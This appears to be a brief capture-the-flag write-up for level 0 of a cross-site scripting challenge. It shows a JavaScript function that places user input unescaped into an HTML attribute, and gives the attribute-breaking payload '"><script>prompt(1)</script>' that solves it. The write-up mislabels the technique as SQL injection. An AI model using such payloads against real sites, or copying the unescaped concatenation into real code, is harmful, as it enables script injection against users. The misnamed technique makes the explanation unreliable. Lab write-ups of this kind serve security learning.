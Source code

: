 # level 0

```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```


In this level we had user input control over the DOM so we had to just use sqli logic to bypass the payload was ```"><script>prompt(1)</script>```